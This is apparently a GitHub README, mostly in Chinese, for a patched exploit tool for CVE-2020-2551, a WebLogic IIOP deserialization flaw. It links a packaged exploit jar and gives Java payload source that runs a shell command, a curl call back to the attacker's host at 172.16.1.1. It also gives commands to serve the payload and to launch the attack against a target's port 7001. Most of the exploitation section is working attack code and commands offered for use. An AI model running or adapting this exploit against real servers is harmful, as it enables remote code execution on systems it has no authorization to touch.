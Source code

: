 ## Patch CVE-2020-2551
更新原版本（https://github.com/Y4er/CVE-2020-2551.git）遇到为私有地址的服务器无法直连检测问题。


## 参考
https://xz.aliyun.com/t/7498< br >
https://xz.aliyun.com/t/7374#toc-13< br >



>>## CVE-2020-2551
>>Weblogic IIOP 反序列化
>>
>>## 测试环境
>>Weblogic10.3.6+jdk1.6
>>
>>[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 
>>
>>## 漏洞利用
>>下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
>>```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
>>
>>**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器
>>
>>```
>>python -m http.server --bind 0.0.0.0 80
>>```
>>
>>命令行运行jar包
>>```
>>java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
>>```
>>实际效果如图
>>![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)
>>
>>## 参考
>>
>>https://y4er.com/post/weblogic-cve-2020-2551/
